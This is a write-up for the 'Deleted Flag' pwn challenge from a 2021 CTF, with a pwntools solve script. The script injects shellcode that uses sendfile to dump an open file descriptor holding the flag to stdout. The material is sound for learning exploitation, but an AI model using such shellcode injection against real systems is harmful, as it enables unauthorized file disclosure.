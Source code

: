 ```yaml
---
name: Deleted Flag (2021)
event: Hacky Holidays Space Race CTF 2021
category: Pwn
description: Writeup for Deleted Flag (pwn) - Hacky Holidays Space Race CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Deleted Flag

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/hY446_xs-DE/0.jpg)](https://youtu.be/hY446_xs-DE?t=2368s "Hacky Holidays Space Race 2021: Deleted Flag")

## Challenge Description

> We've removed your flag. Good luck getting it back.

## Solution

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break fopen
continue
'''.format(**locals())

# Binary filename
exe = './app'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Save the flag to file
write('flag.txt', 'CTF{fake_flag_for_testing}')

# Start program
io = start()

# https://www.tutorialspoint.com/unix_system_calls/sendfile.htm
shellcode = asm(shellcraft.sendfile(1, 3, 0, 4096))  # out_fd is stout (1), in_fd is (3) locally and (5) remotely
write('payload', shellcode)

# Send the payload
io.sendlineafter('flag?', shellcode)

# Got Shell?
io.interactive()
```
